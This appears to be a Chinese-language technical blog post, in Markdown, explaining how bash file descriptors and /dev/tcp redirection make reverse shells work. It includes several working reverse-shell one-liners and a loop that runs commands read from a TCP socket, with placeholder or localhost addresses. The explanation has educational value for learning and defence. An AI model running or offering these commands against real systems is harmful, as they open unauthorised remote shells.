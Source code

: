 ```yaml
---
title: 关于文件描述符和重定向
layout: "post"
---
```

众所周知，把shell的输入输出重定向到在我们监听下的端口处，就可以作为反弹shell用。  
bash有个tcp的特性，用来进行网络重定向很方便，而且bash在现在的linux环境下基本是默认都有的，所以bash反弹shell也很常用。  
但是好像讲反弹shell原理的都讲得不是很好。  
我就把我的理解写一下。  
## 从文件描述子开始
`exec 5<>/dev/tcp/xx.xx.xx.xx/xxxx`  
bash下运行上述命令创建文件描述子5打开后述tcp流。  
然后如果我们在反弹回来的端口上输入，在创建描述子的窗口进行`cat <&5`或者`cat 0<&5`。  
即：将5流的信息重定向到当前窗口的0流输入cat命令。  
结果会是返回我们在端口处输入的值，cat命令干的就是0->1的活。
这时，要做的就是将这个流当作命令执行，并将执行后的1号流和2号流重定向到我们之前建立的5号流上（本质是一样的）。有人会问，重定向到我们之前的/dev/tcp/上行不行呢？可以，但是不够优雅，exec建立的文件描述子相当于打开文件，我们应该把结果发送到我们之前打开的文件上，这样比较像一个shell，如果结果返回的时候仍然用/dev/tcp我们应该再开一个nc监听，监听返回流，这属实不够优雅。
执行命令并返回结果的方法就有很多了，只要将结果返回我们的流，就类似于一个反弹shell了。
比如：  
`cat <&5 | while read line; do $line 2>&5 >&5; done`  
方法应该是特别多  
## 关于常用的bash反弹命令
`bash -i >& /dev/tcp/x.x.x.x/port 0>&1`  
很多人的解释我感觉都不对，其实最好理解的是要明白0、1、2只是被定义成输入输出错误罢了，本质上他们还是文件描述子，那就是双向的。  
其实无论怎么样，只要把012这三条路都连到tcp上就行了，因为描述子是双向的，tcp是双向状态的，所以只要把三条路都连过去就可以了.  
比如说这种:  
`bash -i > /dev/tcp/localhost/4444 0>&1 2>&1`  
如果按照所谓的重定向来理解，根本是看不懂的，但实际上，这就是把012三个流都连到tcp上，用起来是完全没有问题的，因为是tcp是有状态双向的，文件流也是双向的。用起来是完全没有问题的，不行可以自己搭建试一试。  
把上面的符号换一换也是一样：  
`bash -i < /dev/tcp/localhost/4444 1<&0 2<&0`  
用起来也是很好用，完全没有什么影响。  
这可以随便写，只要三个流都和到一起就可以了。  
`exec 5<>/dev/tcp/127.0.0.1/4444;bash -i 0<&5 1>&5 2>&5`  
上面这种新的反弹shell，明白了原理就随便写了。  
